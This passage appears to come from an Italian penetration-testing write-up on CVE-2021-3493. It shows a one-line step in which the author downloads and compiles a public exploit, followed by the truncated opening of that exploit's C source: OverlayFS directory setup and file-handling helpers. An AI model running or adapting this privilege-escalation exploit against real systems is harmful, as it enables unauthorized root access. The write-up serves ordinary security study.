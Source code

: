### CVE-2021-3493

Per la seguente vulnerabilità scarico e compilo il file _exploit.c_ dal [repository git](https://github.com/briskets/CVE-2021-3493):

```text
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);

    char buf[4096];
    ssize_t rd, wr;

    for (;;) {
```